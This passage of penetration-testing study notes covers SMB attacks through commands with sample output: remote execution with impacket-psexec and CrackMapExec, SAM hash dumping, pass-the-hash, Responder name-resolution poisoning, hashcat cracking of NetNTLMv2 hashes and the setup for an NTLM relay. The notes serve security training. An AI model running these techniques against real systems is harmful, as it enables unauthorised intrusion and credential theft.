> **Note:** By default `CrackMapExec` will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. Additionally, if we are targetting a non-domain joined computer, we will need to use the option `--local-auth`.

</details>

<details>
<summary><h3>Remote Code Execution (RCE)</h3></summary>

To use impacket-psexec, we need to provide the domain/username, the password, and the IP address of our target machine.

**Option 1 > Connect to a remote machine using `impacket-psexec`**

```bash
impacket-psexec <USER>:'<PASSWORD>'@<TARGET_IP>
```

**Example Output:**

```bash
# Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

# [*] Requesting shares on <TARGET_IP>.....
# [*] Found writable share ADMIN$
# [*] Uploading file EHtJXgng.exe
# [*] Opening SVCManager on <TARGET_IP>.....
# [*] Creating service nbAc on <TARGET_IP>.....
# [*] Starting service nbAc.....
# [!] Press help for extra shell commands
# Microsoft Windows [Version 10.0.19041.1415]
# (c) Microsoft Corporation. All rights reserved.


C:\Windows\system32>
```

> **NOTE:** The same options apply to `impacket-smbexec` and `impacket-atexec`.

---

**Option 2 > Run CMD or PowerShell commands using `crackmapexec`**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' -x 'whoami' --exec-method smbexec
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:.) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] .\<USER>:<PASSWORD> (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Executed command via smbexec
# SMB         <TARGET_IP> 445    WIN7BOX  nt authority\system
```

> **Note:** If the `--exec-method` is not defined, CrackMapExec will try to execute the `atexec` method, if it fails you can try to specify the `--exec-method` smbexec.

</details>

<details>
<summary><h3>Enumerating Logged-on Users</h3></summary>

Imagine we are in a network with multiple machines. Some of them share the same local administrator account. In this case, we could use CrackMapExec to enumerate logged-on users on all machines within the same network 10.10.110.0/24, which speeds up our enumeration process.

**Example Command**

```bash
crackmapexec smb 10.10.110.0/24 -u <USER> -p '<PASSWORD>' --local-auth --logged-on-users
```

**Example Output:**

```bash
# SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         10.10.110.17 445    WIN7BOX  [+] Enumerated loggedon users
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\Administrator             logon_server: WIN7BOX
# SMB         10.10.110.17 445    WIN7BOX  WIN7BOX\jurena                    logon_server: WIN7BOX
# SMB         10.10.110.21 445    WIN10BOX  [*] Windows 10.0 Build 19041 (name:WIN10BOX) (domain:WIN10BOX) (signing:False) (SMBv1:False)
# SMB         10.10.110.21 445    WIN10BOX  [+] WIN10BOX\Administrator:Password123! (Pwn3d!)
# SMB         10.10.110.21 445    WIN10BOX  [+] Enumerated loggedon users
# SMB         10.10.110.21 445    WIN10BOX  WIN10BOX\demouser                logon_server: WIN10BOX
```

</details>

<details>
<summary><h3>Extract Hashes from SAM Database</h3></summary>

The Security Account Manager (SAM) is a database file that stores users' passwords. It can be used to authenticate local and remote users. If we get administrative privileges on a machine, we can extract the SAM database hashes for different purposes:

* Authenticate as another user
* Password Cracking, if we manage to crack the password, we can try to reuse the password for other services or accounts
* Pass The Hash

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -p '<PASSWORD>' --sam
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\administrator:Password123! (Pwn3d!)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Dumping SAM hashes
# SMB         <TARGET_IP> 445    WIN7BOX  Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
# SMB         <TARGET_IP> 445    WIN7BOX  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
# SMB         <TARGET_IP> 445    WIN7BOX  WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5717e1619e16b9179ef2e7138c749d65:::
# SMB         <TARGET_IP> 445    WIN7BOX  jurena:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
# SMB         <TARGET_IP> 445    WIN7BOX  demouser:1002:aad3b435b51404eeaad3b435b51404ee:4c090b2a4a9a78b43510ceec3a60f90b:::
# SMB         <TARGET_IP> 445    WIN7BOX  [+] Added 6 SAM hashes to the database
```

</details>

<details>
<summary><h3>Pass-the-Hash (PtH)</h3></summary>

If we manage to get an **NTLM hash** of a user, and if we cannot crack it, we can still use the hash to authenticate over SMB with a technique called **Pass-the-Hash (PtH)**. PtH allows an attacker to authenticate to a remote server or service using the underlying NTLM hash of a user's password instead of the plaintext password. We can use a PtH attack with any `Impacket tool`, `SMBMap`, `CrackMapExec`, among other tools.

**Example Command**

```bash
crackmapexec smb <TARGET_IP> -u <USER> -H <NTLM_HASH>
```

**Example Output:**

```bash
# SMB         <TARGET_IP> 445    WIN7BOX  [*] Windows 10.0 Build 19041 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
# SMB         <TARGET_IP> 445    WIN7BOX  [+] WIN7BOX\<USER>:<NTLM_HASH> (Pwn3d!)
```

</details>

<details>
<summary><h3>Forced Authentication Attacks</h3></summary>

SMB can be abused to capture users' **NetNTLM v1/v2 hashes**. By setting up a fake SMB server, we can trick clients into authenticating to it.

**Tool: Responder**
* Responder is a **LLMNR, NBT-NS, and MDNS poisoner**.
* Key capabilities include:
    * Setting up **fake services** (e.g., SMB) to capture credentials.
    * Listening for **LLMNR and NBT-NS traffic**.
    * Responding on behalf of servers that victims try to reach.
    * Capturing **NetNTLM v1/v2 hashes** automatically.

**Workflow**
1. Start Responder in a network segment.
2. Wait for LLMNR/NBT-NS requests from clients.
3. Responder responds with the fake SMB service.
4. Victim attempts authentication to the fake SMB server.
5. NetNTLM hashes are captured for offline cracking or relay attacks.


```mermaid
flowchart TD
    A[Victim Machine] -->|Sends LLMNR or NBT-NS request| B[Responder - Fake SMB Server]
    B -->|Responds as target SMB server| A
    A -->|Authenticates using NetNTLM hash| B
    B --> C[Attacker Captures NetNTLM hash]
    C --> D[Offline Cracking or Relay Attacks]
```

**Why This Matters**
* Allows attackers to harvest authentication credentials without user interaction.
* Can be combined with **hash cracking** or **SMB relay attacks**.

When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:

```mermaid
flowchart TD
    A["User/System needs hostname's IP address"] --> B["Check Local Hosts File\n(C:\\Windows\\System32\\Drivers\\etc\\hosts)"]
    B -->|Record Found| Z["Use IP Address"]
    B -->|No Record| C["Check Local DNS Cache"]
    C -->|Record Found| Z
    C -->|No Record| D["Query Configured DNS Server"]
    D -->|Record Found| Z
    D -->|Negative Response| F["Host Not Found"]
    D -->|Server Unreachable| E["Send Multicast Query\n(LLMNR/NBT-NS)"]
    E -->|Response Received| Z
    E -->|No Response| F
```

**Step 1: Create a fake SMB server using the Responder default configuration:**

```bash
sudo responder -I ens3
```

**Expected Output:**

```bash
#   .----.-----.-----.-----.-----.-----.--|  |.-----.----.
#   |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
#   |__| |_____|_____|   __|_____|__|__|_____||_____|__|
#                    |__|

#            NBT-NS, LLMNR & MDNS Responder 3.1.3.0

#   To support this project:
#   Patreon -> https://www.patreon.com/PythonResponder
#   Paypal  -> https://paypal.me/PythonResponder

#   Author: Laurent Gaffie (laurent.gaffie@gmail.com)
#   To kill this script hit CTRL-C

# ...


# [+] Listening for events...

# ...
```

**Example output when credentials are captured:**

```bash
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Domain Master Browser)
# [*] [NBT-NS] Poisoned answer sent to <TARGET_IP> for name WORKGROUP (service: Browser Election)
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [*] [LLMNR]  Poisoned answer sent to <TARGET_IP> for name mysharefoder
# [*] [MDNS] Poisoned answer sent to <TARGET_IP>   for name mysharefoder.local
# [SMB] NTLMv2-SSP Client   : <TARGET_IP>
# [SMB] NTLMv2-SSP Username : WIN7BOX\demouser
# [SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>
```

These captured credentials can be cracked using hashcat or relayed to a remote host to complete the authentication and impersonate the user.

All saved Hashes are located in Responder's logs directory (**`/usr/share/responder/logs/`**). We can copy the hash to a file and attempt to crack it using the hashcat module 5600.

> **NOTE:** If you notice multiples hashes for one account this is because NTLMv2 utilizes both a client-side and server-side challenge that is randomized for each interaction. This makes it so the resulting hashes that are sent are salted with a randomized string of numbers. This is why the hashes don't match but still represent the same password.

**Step 2: Use hashcat to crak the password:**

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

**Expected Output:**

```bash
# hashcat (v6.1.1) starting...

# ...

# Dictionary cache hit:
# * Filename..: /usr/share/wordlists/rockyou.txt
# * Passwords.: 14344386
# * Bytes.....: 139921355
# * Keyspace..: 14344386

# ADMINISTRATOR::WIN7BOX:<NTLM_SERVER_CHALLENGE>:<NTLMV2_RESPONSE>:<NTLMV2_BLOB>:P@ssword

# Session..........: hashcat
# Status...........: Cracked
# Hash.Name........: NetNTLMv2
# Hash.Target......: ADMINISTRATOR::WIN-487IMQOIA8E:997b18cc61099ba2:3cc...000000
# Time.Started.....: Mon Apr 11 16:49:34 2022 (1 sec)
# Time.Estimated...: Mon Apr 11 16:49:35 2022 (0 secs)
# Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
# Guess.Queue......: 1/1 (100.00%)
# Speed.#1.........:  1122.4 kH/s (1.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
# Recovered........: 1/1 (100.00%) Digests
# Progress.........: 75776/14344386 (0.53%)
# Rejected.........: 0/75776 (0.00%)
# Restore.Point....: 73728/14344386 (0.51%)
# Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
# Candidates.#1....: compu -> kodiak1

# Started: Mon Apr 11 16:49:34 2022
# Stopped: Mon Apr 11 16:49:37 2022
```

The captured NTLMv2 hash was successfully cracked, revealing the password: **`P@ssword`**.
If the hash cannot be cracked, it may still be leveraged through a relay attack. This can be achieved using tools such as `impacket-ntlmrelayx` or Responder’s `MultiRelay.py`.

**Step 3: Perform an NTLM relay attack with impacket-ntlmrelayx:**

```bash
sudo sed -i 's/^SMB = .*/SMB = Off/' /etc/responder/Responder.conf
```

**Step 4: Verify changes**

```bash
cat /etc/responder/Responder.conf | grep 'SMB ='
```

**Expected Output:**

```bash
# SMB = Off
```

</details>

</details>

</details>

---

<details>
<summary><h1>🛢️ SQL Databases</h1></summary>



</details>

---

<details>
<summary><h1>🖧 RDP</h1></summary>



</details>

---

<details>
<summary><h1>🌐 DNS</h1></summary>



</details>

---

<details>
<summary><h1>📨 SMTP</h1></summary>



</details>

---

<details>
<summary><h1>🛠️ Skills Assessment</h1></summary>

<details>
<summary><h2>Attacking Common Services (EASY)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (MEDIUM)</h2></summary>

</details>

<details>
<summary><h2>Attacking Common Services (HARD)</h2></summary>

</details>

</details>

---

📘 **Next step:** Continue with [PIVOTING-TUNNELING](./09-pivoting-tunneling.md)